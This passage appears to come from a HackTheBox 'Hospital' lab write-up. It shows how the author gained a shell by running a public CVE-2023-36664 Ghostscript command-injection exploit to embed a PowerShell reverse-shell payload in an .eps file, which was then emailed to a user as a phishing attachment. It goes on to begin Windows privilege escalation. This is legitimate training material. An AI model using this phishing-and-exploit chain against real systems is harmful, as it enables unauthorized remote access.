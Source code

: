 {% endcode %}

`.eps` and GhostScript signifies that I might have to send a phishing email to gain RCE as another user.

Searching for 'Ghostscript exploit' returns this as the first result:

{% embed url="https://github.com/jakabakos/CVE-2023-36664-Ghostscript-command-injection" %}

Since we already accessed the Linux part, I assumed that now was time for the Windows portion, hence I used a `powershell` reverse shell:

Firstly, generate the `file.eps` payload:

```
$ python3 CVE_2023_36664_exploit.py --inject --payload "<used powershll #3 base64 from revshells.com>" --filename file.eps
[+] Payload successfully injected into file.eps.
```

Then, construct an email to `drbrown` with the file as an attachment:

![](../../.gitbook/assets/htb-hospital-image-13.png)

After sending, I immediately got a shell as `drbrown`:

![](../../.gitbook/assets/htb-hospital-image-14.png)

## Privilege Escalation

### RDP Privileges -> Admin Creds

The user was part of numerous remote management groups:

```
PS C:\Users\drbrown.HOSPITAL\Documents> net user drbrown
User name                    drbrown
Full Name                    Chris Brown
Comment                      
User's comment               
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            9/6/2023 6:53:27 AM
Password expires             Never
Password changeable          9/6/2023 6:53:27 AM
Password required            Yes
```